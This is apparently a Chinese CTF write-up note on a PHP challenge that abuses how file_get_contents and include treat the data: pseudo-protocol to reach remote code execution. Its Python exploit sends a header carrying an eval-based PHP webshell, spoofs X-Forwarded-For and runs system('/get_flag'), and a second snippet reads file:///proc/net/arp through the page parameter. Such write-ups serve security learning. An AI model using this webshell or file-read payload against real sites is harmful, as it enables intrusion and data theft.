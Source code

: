 tags:: [[CTF/伪协议]]

- # 思路
	- 使用file_get_contents和include处理伪协议时的差异进行RCE
- # 伪协议
	-
	- `data`伪协议可以省略掉`//`
	- `file_get_contents('data:127001/profile') == "127001"`
	- 但是选项`allow_url_include=Off`时``include('data:127001/profile')``会寻找文件夹`data:127001`下的`profile`文件
- # Exp
	- ```python
	  # url = "http://127.0.0.1:8081/"
	  url = "http://node4.buuoj.cn:29874/"
	  
	  r = base_post(url, headers = {
	      "Xxx": "<?php eval($_POST['data']);?>",
	      "X-Forwarded-For": "data:127.0.0.1"
	  }, params = {
	      "page": "data:127001/profile"
	  }, data = {
	      "data": "system('/get_flag');"
	  })
	  print(r.status_code)
	  print(r.text)
	  ```
- # 施工中
	- 传入GET参数hl可以看到源码
	- 有限制的文件include
		- ```python
		  # url = "http://127.0.0.1:8081/"
		  url = "http://node4.buuoj.cn:29874/"
		  
		  r = base_get(url, headers = {
		      "Xxx": "Aaa",
		      "X-Forwarded-For": "127.0.0.1"
		  }, params = {
		      "page": "file:///proc/net/arp"
		  })
		  print(r.text)
		  ```